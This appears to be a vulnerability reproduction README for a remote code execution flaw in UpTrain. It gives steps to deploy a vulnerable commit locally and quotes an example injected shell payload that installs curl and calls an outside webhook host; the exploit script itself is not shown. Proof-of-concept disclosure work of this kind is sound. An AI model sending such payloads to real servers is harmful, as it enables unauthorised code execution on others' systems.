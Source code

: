 # vulnerable instance setup
1. Install the vulnerable instance by running the following command:
```bash
git clone https://github.com/uptrain-ai/uptrain
cd uptrain
# for compatibility with the RCE vulnerability, checkout the commit that still has the vulnerability
git checkout a31cc14eddcb6c0b0b12cbed15f086d98c441c6f
bash run_uptrain.sh
```
open http://localhost:3000 in your browser.

## Exploiting the Vulnerability
To demonstrate the vulnerability, you can send an HTTP request to execute arbitrary code on the server.
### Example
The example payload below runs a shell command to update packages, install `curl`, and send a webhook request. you can replace `apt update && apt install curl -y && curl https://webhook.site/` with your own payload.

```bash
bash exploit.sh
```